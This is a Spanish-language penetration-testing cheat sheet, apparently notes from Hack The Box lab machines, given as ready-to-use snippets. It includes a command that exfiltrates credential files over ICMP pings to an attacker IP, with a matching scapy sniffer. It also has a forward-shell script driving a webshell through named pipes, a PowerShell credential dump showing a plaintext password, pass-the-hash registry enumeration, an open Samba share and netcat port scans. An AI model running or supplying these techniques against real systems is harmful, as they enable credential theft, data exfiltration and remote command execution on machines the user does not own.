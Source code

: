 # extra

# EXTRA

## Exfiltración de datos por ICMP

### Sniffer

```python
#!/usr/bin/python3from scapy.all import *import sys, signaldef def_handler(sig, frame):    sys.exit(1)# Ctrl+Csignal.signal(signal.SIGINT, def_handler)# Variables globalesinterface = 'tun0'def data_parser(packet):    if packet.haslayer(ICMP):        if packet[ICMP].type == 8:            data = packet[ICMP].load[-4:].decode("utf-8")            print(data, flush=True, end='')if __name__ == '__main__': # xxd -p -c 4 /etc/hosts | while read i; do echo $i | xxd -ps -r; done    sniff(iface=interface, prn=data_parser)
```

### Comando a ejecutar

```
command=xxd -p -c 4 /home/loki/cred* | while read i; do ping -c 1 -p $i 10.10.16.2; done
```

## Obtención ACLs

```
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

## Compartir recurso SAMBA

```
service smbd start
```

```
net usershare add shared $(pwd) '' 'Everyone:F' 'guest_ok=y'
```

## Uso de authbind

En caso de no disponer el privilegio para abrir ciertos puertos, se puede utilizar este comando si hay una regla establecida

```
atanas@kotarak-dmz:/etc/authbind/byport$ authbind python3 -m http.server 80
```

## Forward Shell Python

```python
from base64 import b64encodefrom random import randrangeimport requests, sys, pdb, signaldef def_handler(sig, frame):    print("\n")    sys.exit(1)# Ctrl+Csignal.signal(signal.SIGINT, def_handler)# Variables globalesmain_url = "http://10.10.10.67/webdav_test_inception/cmd.php?cmd="session = randrange(1, 9999)stdin = "/dev/shm/strin.%s" % sessionstdout = "/dev/shm/stdout.%s" % sessiondef RunCmd(command):    headers = {        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'    }    command = b64encode(command.encode()).decode()    post_data = {        'cmd': 'echo %s | base64 -d | bash' % command    }    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)    return r.textdef WriteCmd(command):    headers = {        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'    }    command = b64encode(command.encode()).decode()    post_data = {        'cmd': 'echo %s | base64 -d > %s' % (command, stdin)    }    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)    return r.textdef ReadCmd(command):    ReadOutput = """/bin/cat %s""" % stdout    response = RunCmd(ReadOutput)    return responsedef SetupShell():    NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)    try:        RunCmd(NamedPipes)    except:        None    return NoneSetupShell()if __name__ == '__main__':    while True:        command = input("> ")        WriteCmd(command + "\n")        response = ReadCmd(command)        print(response)        ClearOutput = """echo '' > %s """ % stdout        RunCmd(ClearOutput)
```

## Solución Java 11 / 16 Error incompatibilidad

```
update-alternatives --config java
```

## Captura de pantalla Windows

```
PS C:\Windows\System32\spool\drivers\color> .\nircmd.exe savescreenshot captura.png
```

## Convertir SecureString a texto plano

```
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## Conversión archivo a base64 Windows

```
PS C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb> [convert]::ToBase64String((Get-Content -path "000003.log" -Encoding byte))
```

## Enumeración de registros

```
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU
HKU\Console
HKU\Control Panel
HKU\Environment
HKU\Keyboard Layout
HKU\Network
HKU\Software
HKU\System
HKU\Volatile Environment
```

## Listar ACLs a través de montura CIFS

```
smbcacls "//10.10.10.103/Department Shares" Users
```

## Simple Formulario HTML para subida de archivos

```
<form action="test.php" method="post" enctype="multipart/form-data" target="_blank">
  <p>
    <input type="file" name="upload">
    <input type="submit" value="upload">
  </p>
</form>
```

## Port Discovery

## Con netcat

```
for port in $(seq 1 65535); do nc 172.17.0.1 $port -zv; done
```

## **XML to HTML Nmap Template**

```jsx
nmap --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oX targetedXML
xsltproc targeted.xml > index.html
```